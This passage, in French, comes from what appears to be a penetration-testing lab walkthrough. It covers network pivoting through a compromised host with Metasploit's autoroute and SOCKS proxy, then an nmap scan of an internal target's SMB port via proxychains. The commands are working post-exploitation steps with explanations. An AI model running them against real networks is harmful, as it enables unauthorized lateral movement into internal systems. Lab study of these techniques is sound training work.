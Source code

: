 #### Ajout de route via Meterpreter
```bash
# Retour à la session Meterpreter
# Ajout de route pour le réseau de la cible 2
run autoroute -s 10.0.28.125/20
```

**Concept - Autoroute :**
- Ajoute des routes dans la table de routage Metasploit
- Permet l'accès aux réseaux internes via la session compromise
- Essentiel pour le pivoting réseau

#### Configuration du serveur SOCKS
```bash
# Vérification de la configuration proxychains
cat /etc/proxychains4.conf
# Rechercher la ligne socks4 et noter le port (généralement 9050)
```

```bash
# Mise en arrière-plan de la session Meterpreter
background

# Configuration du serveur proxy SOCKS4a
use auxiliary/server/socks_proxy
set SRVPORT 9050  # Port configuré dans proxychains
set VERSION 4a
exploit

# Vérification des jobs actifs
jobs
```

**Concept - SOCKS Proxy :**
- Serveur proxy intégré à Metasploit
- Utilise le routage Metasploit pour relayer les connexions
- Permet l'utilisation d'outils externes via proxychains

### Phase 8 : Énumération de la Cible Pivotée

#### Scan via proxychains
```bash
# Scan de la cible 2 via le pivot
proxychains nmap target2 -sT -Pn -sV -p 445
```

**Paramètres de scan via pivot :**
- `-sT` : TCP connect scan (plus sûr via proxy)
- `-Pn` : Skip host discovery (évite les timeouts)
- `-sV` : Détection de version
- `-p 445` : Port SMB spécifique

**Pourquoi ce type de scan :**
- Scan TCP connect plus stable via proxy
- Évite les scans agressifs qui pourraient tuer la session
- Alternative aux modules auxiliaires Metasploit (plus agressifs)
